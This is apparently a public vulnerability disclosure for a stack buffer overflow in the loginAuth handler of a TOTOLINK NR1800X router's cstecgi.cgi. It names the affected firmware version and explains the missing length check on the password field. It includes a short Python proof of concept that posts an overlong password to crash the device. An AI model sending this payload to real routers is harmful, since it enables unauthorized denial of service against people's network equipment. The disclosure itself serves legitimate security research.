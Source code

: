# TOTOLINK NR1800X(V9.1.0u.6279_B20210910) router has buffer overflow vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/225/ids/36.html

## Affected Version
V9.1.0u.6279_B20210910
## Vulnerability Analysis
The following image displays the code for a stack overflow vulnerability in the `sub_42aeec` function of `cstecgi.cgi`, which is the handler of `loginAuth`. The value of `password` will be urldecoded then copied to `var_b0` which is a local variable. Due to the lack of length validation by the developer on `password`, sending an overly long message by the attacker will eventually cause a stack overflow in the program.
![Vulnerability](./code.png)
![buffer](./buffer.png)
## POC
```python
import requests

def poc():
    payload = """{"username":"admin","password":"password":" """
    payload += "A"*200
    payload += """","verify":"0","flag":"0","topicurl":"loginAuth"}"""
    print(payload)
    requests.post('http://192.168.5.12/cgi-bin/cstecgi.cgi', data=payload)
poc()
```
A SIGSEGV is an error(signal) caused by an invalid memory reference.
![fault](bof.png)